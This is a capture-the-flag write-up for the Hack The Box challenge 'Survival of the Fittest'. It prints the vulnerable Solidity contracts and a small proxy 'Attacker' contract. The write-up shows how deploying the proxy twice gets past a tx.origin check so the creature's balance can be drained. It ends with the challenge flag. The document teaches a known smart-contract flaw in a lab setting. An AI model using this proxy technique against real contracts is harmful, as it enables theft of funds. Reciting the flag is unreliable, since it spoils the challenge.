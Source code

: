# Survival of the Fittest

### CHALLENGE DESCRIPTION
**_After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance._**

## Solution

**STEP 1: Code reviewing**

There we have 2 Solidity files similar to `Survival of the Fittest` codes:

>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Here you can see some differences from the `Survival of the Fittest` files, such as `_isOffBalance()` and `aggro`. To kill the enemy, we need to bypass these conditions.


**STEP 2: The Bypass**

Take a look to the `_isOffBalance()` function

```
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Let`s deploy a contract to avoid this.

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface ICreature {
    function attack(uint256 _damage) external;
}

contract Attacker {
    ICreature target;

    constructor(address _target) {
        target = ICreature(_target);
    }

    function attack(uint256 _damage) external {
        target.attack(_damage);
    }
}
```

We need to deploy it twice to distract enemy.

First deploy:

![image](https://github.com/luvranse/web3/assets/46570641/8094ec25-7c85-4e43-9ebf-96ddf53df1cf)

Second deploy:

![image](https://github.com/luvranse/web3/assets/46570641/80ce8c85-ee18-4b7d-80f4-a17646138850)

**STEP 3: The Battle**

Initiate an attack with one of our contracts. Distract the enemy.

![image](https://github.com/luvranse/web3/assets/46570641/b67668e1-8f2d-4894-b2d4-0289fa67f46a)

Then attack with another one. 

![image](https://github.com/luvranse/web3/assets/46570641/95349e4f-b63d-4c21-881e-cbd3ef07347e)

Let's try take a loot. 

![image](https://github.com/luvranse/web3/assets/46570641/ceeb051f-df34-4037-82b2-f2f2f13a352f)

Congratz! There is the flag!

![image](https://github.com/luvranse/web3/assets/46570641/f1a06966-e9fd-4dab-8799-a75c92da167f)

### FLAG

```
HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}
```

